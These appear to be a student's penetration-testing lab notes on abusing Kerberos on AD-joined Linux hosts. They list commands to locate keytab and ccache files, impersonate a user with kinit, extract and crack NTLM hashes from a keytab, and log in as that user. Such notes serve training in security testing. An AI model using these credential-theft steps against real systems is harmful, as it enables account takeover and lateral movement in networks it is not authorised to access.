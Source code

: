 
Kerberos on Linux
- Most cases, Linux machines stores Kerberos tickets as `ccache files` in `tmp` directory
- Default, location of these tickets stored in environment variable `KRB5CCNAME`
- Kerberos also used for `keytab` files
	- Contapining pairs of Kerberos principals and encrypted keys dreived from the Kerberos password
	- Can use to authenticate to various remote systems using Kerberos without password

Eg. scenario
- We have a Linux01 connected to DC
	- This machine only reachable through MS01
- We can connect to MS01 via RDP, then ssh to the linux machine
- Or do port forwarding

# Identifying Linux and AD integration
- `realm list`
	- See if machine configured as Kerberos member
	- Give info on domain name, which users/groups permitted to log in
	- https://web.archive.org/web/20210624040251/https://www.2daygeek.com/how-to-identify-that-the-linux-server-is-integrated-with-active-directory-ad/
- If realm not available
	- `ps -ef | grep -i "winbind\|sssd"`
		- See if there are tools like winbind that are used to integrate Linux with AD

# Finding Kerberos Tickets in Linux
- Find files with `keytab` in the name
	- `find / -name *keytab* -ls 2>/dev/null`
- Find keytab files in Cronjobs
	- `crontab -l`
	- `cat` the scripts in there
- Finding `ccache` files
	1. See where the `ccache` files are stored
		- `env | grep -i krb5
			- Because location by default stored in KRB5CCNAME envir
	2. Search that location found above.
		- `ls -la /tmp
			- Assuming the location found above is `tmp` (which is it by default)

# Abusing KeyTab Files
- `klist` to see which user this is for
	- eg. `klist -k -t /opt/specialfiles/carlos.keytab `
- `kinit` to impersonate
	- eg. `kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
	- Should be authenticated as carlos now.
		- eg. can now do `smbclient //dc01/carlos -k -c ls`

# Extracting hashes from the Keytab file
- With `kinit`, can impersonate him to read shared folder on domain, but if we want access to his Linux account, need password

1. Run `keytabextract.py` on the keytab file
	- `python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab `
2. Retrieve ntlm hash, then do PTH attack (see prev page)
	- Can also crack with hashcat/JtR or  https://crackstation.net/
3. With the cracked password, can login as him
	- `su - carlos@inlanefreight.htb `

# Abusing Keytab ccache
- Can use the ccache files in `/tmp` if we are root